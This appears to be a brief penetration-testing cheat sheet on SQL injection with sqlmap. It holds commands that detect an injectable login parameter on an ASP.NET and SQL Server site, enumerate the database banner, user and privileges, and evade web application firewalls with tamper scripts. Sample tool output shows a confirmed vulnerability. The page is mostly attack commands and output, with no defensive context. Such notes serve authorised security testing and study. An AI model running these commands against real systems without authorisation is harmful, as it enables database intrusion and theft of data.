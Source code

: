 # SQL Injection

## Basic usage of sqlmap

Test POST request :&#x20;

```
sqlmap -r req.txt

it looks like the back-end DBMS is 'Microsoft SQL Server'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
...
POST parameter 'ctl00$ContentPlaceHolder1$UsernameTextBox' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
```

Database enumeration on specific injectable parameter and specifying technique to use :

```
sqlmap -r req.txt --technique=S --banner --current-user --current-db --is-dba -p 'ctl00$ContentPlaceHolder1$UsernameTextBox'

web server operating system: Windows 2016 or 11 or 2022 or 10 or 2019
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 10.0
back-end DBMS operating system: Windows
back-end DBMS: Microsoft SQL Server 2019
banner:
---
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
	Sep
---

current user is DBA: False

```

## Bypass protections with sqlmap

```
--skip-waf
--tamper=between
--tamper=base64encode
--tamper=charencode
```
